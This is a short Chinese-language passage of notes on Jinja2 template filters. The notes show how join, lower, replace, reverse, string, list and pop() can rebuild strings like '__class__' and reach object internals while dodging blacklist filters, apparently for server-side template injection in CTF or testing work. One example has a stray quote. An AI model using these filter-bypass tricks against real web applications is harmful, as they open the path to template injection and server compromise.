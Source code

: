 *   **first last random**

    分别返回数组的第一个，最后一个，随机一个

    ```python
    "".__class__.__mro__|last()
    相当于
    "".__class__.__mro__[-1]
    ```

*   **join**

    用来拼接字符串

    join('|')表示用|连接，如果没有直接连接

    ```python
    ""[['__clas','s__']|join] 或者 ""[('__clas','s__')|join]
    相当于
    ""["__class__"]
    ```

*   **lower**

    转换成小写

    ```python
    ""["__CLASS__"|lower]
    ```

*   **replace reverse**

    替换       反转

    ```python
    ""[""__claee__"|replace("ee","ss")] 构造出字符串 ""["__class__"
    "__ssalc__"|reverse] 构造出 ""["__class__"]
    ```

*   **string**

    类似于str(),把显示到浏览器中的值全部转换为字符串再通过下标引用

    ```python
    ().__class__   出来的是<class 'tuple'>
    (().__class__|string)[0] 出来的是<
    ```

*   **list**

    转换成列表

    配合上面的string转换成列表，就可以调用列表里面的方法取字符了

    **如果过滤了[],可以用pop()或`__getitem__`调用列表中的方法**

    ```
    (()|select|string|list).pop(0)
    ```

    